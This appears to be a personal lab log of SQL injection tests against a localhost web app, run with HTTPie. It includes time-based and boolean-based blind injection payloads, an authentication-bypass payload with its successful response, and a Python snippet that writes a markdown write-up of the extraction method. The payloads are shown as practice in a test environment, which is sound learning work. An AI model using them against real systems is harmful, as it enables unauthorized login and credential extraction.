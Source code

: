 # Blind SQL Injection Test Log

**Date:** 2025-06-03 13:55:04

## Request
```bash
http --form POST http://localhost:5000/blind username="' OR IF(1=1, SLEEP(5), 0) -- " password=irrelevant
```

## Response
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 612
Server: Werkzeug/3.1.3 Python/3.9.22
Time taken: ~5 seconds

Result: User exists!

```

## Notes
- Payload used: `' OR IF(1=1, SLEEP(5), 0) -- `
- The delay in response time indicates a successful time-based blind SQL injection.
- This technique exploits conditional execution and time delays to infer true/false results.



---

### 📄 Vulnerability: SQL Injection

**Date:** 2025-06-03
**Target URL:** `http://localhost:5000/login`
**Tool Used:** HTTPie
**Testing Goal:** Bypass authentication using SQL injection

---

#### 🔢 Test #1

**Payload:**

```http
http --form POST http://localhost:5000/login username="' OR 1=1 #" password=irrelevant
```

**Expected Behavior:**
User should be logged in as admin

**Actual Response:**

```
HTTP/1.1 302 FOUND
Location: /dashboard
Set-Cookie: session=eyJ1c2VyIjoiYWRtaW4ifQ...
```

✅ **Successful Authentication Bypass**

---

#### 🧠 Notes:

* `#` worked for comment truncation in MySQL
* Burp wasn’t working—used HTTPie as fallback
* Remember to use `--form` to mimic HTML form submission

---from datetime import datetime
from pathlib import Path

# Re-generate the markdown file since code state was reset
timestamp = datetime.now().strftime("%Y-%m-%d_%H-%M-%S")
filename = f"blind_sqli_test_{timestamp}.md"
file_path = Path("/mnt/data") / filename

markdown_content = f"""# Blind SQL Injection Test - Boolean-Based

**Date**: {datetime.now().strftime('%Y-%m-%d %H:%M:%S')}

---

## 🔍 Test Objective

Discover the `username` value character by character via a boolean-based blind SQLi attack on the `/blind` endpoint.

---

## 🧪 Test Request

```bash
http --form POST http://localhost:5000/blind username="' OR SUBSTRING(username,1,1)='a' -- "

📥 Request Breakdown

    Method: POST

    Endpoint: /blind

    Content-Type: application/x-www-form-urlencoded

    Payload:

        The injection is in the username field

        SUBSTRING(username,1,1)='a' checks if the first letter of any username is 'a'

        ' -- comments out the rest of the original query

📤 Response Interpretation

    If response contains "User exists!" → the character guess is correct

    If response contains "No such user." → the character is incorrect

🧠 Exploitation Strategy

Repeat the request by adjusting the character at each position until the full username is discovered.
🔁 Next Steps

    Repeat this test for each character until the entire username is revealed:

Always show details

    http --form POST http://localhost:5000/blind username="' OR SUBSTRING(username,1,1)='b' -- "
    http --form POST http://localhost:5000/blind username="' OR SUBSTRING(username,1,1)='c' -- "
    # ...etc.

💡 Notes

    This is a safe, educational environment.

    The technique demonstrates how vulnerable logic can leak information without direct data output.

    Once a full username is known, this method can be used on the password field similarly.

"""

file_path.write_text(markdown_content)
file_path